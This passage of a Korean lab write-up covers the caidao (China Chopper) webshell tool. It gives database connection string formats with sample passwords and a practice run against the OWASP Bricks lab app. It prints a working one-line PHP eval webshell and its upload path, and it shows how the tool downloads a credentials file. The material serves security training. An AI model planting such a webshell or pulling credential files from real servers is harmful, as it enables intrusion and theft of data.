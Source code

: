       <L>utf8</L>                <--- PHP 옵션으로 MYSQL 데이터베이스 유형 선택 (단, latin1 은 기입 X)

      ASP 및 ASP.NET :
      <T>유형</T>                <--- ADO 기재
      <C>ADO 구성 정보</C>       <--- MSSQL 구성 정보
              Driver={Sql Server};Server=(local);Database=master;Uid=sa;Pwd=123456;

      사용자 정의    :
      <T>유형</T>                <--- XDB 만 기재
      <X>사용자가 정의한 구성 정보</X> <--- Customize.jsp 와 같이 데이터베이스 매개 변수 작성 (두 줄)
      MSSQL          :
              <X>
              com.microsoft.sqlserver.jdbc.SQLServerDriver
              jdbc:sqlserver://127.0.0.1:1433;databaseName=test;user=sa;password=123456
              </X>
        MYSQL          :
              <X>
              com.mysql.jdbc.Driver
              jdbc:mysql://localhost/test?user=root&password=123456
              </X>
        ORACLE         :
              <X>
              oracle.jdbc.driver.OracleDriver
              jdbc:oracle:thin:user/password@127.0.0.1:1521/test
              </X>

## ( 5 ) caidao 툴을 이용한 One Line WebShell 실습

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/3b4ff41c-ebe6-4179-84a1-0eb1d8e76312)

< 웹쉘 파일 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/ece70bee-567d-42d9-9dd3-f5f4659fb90a)

< 웹쉘 업로드 >


owaspbwa 의 OWASP Bricks 웹 어플리케이션(PHP + MySQL + Linux)에서 실습함.
웹쉘 코드 : <?php @eval($_POST['koromoon']);?>
웹쉘 업로드 링크 : http://192.168.100.133/owaspbricks/upload-1/uploads/webshell.php



1. DB 정보 관련 파일 다운로드 (LocalSettings.php)
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/05664bdb-1aa9-4e8c-af46-65938eea79e7)

< caidao 툴에서 LocalSettings.php 파일 다운로드 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/17f8361d-4906-4703-80cb-f514066c403c)

< LocalSettings.php 파일 다운로드 시 패킷덤프 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/30dc7418-8c69-4586-ac57-4aa0667fb650)

< LocalSettings.php 파일 내용 >


[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"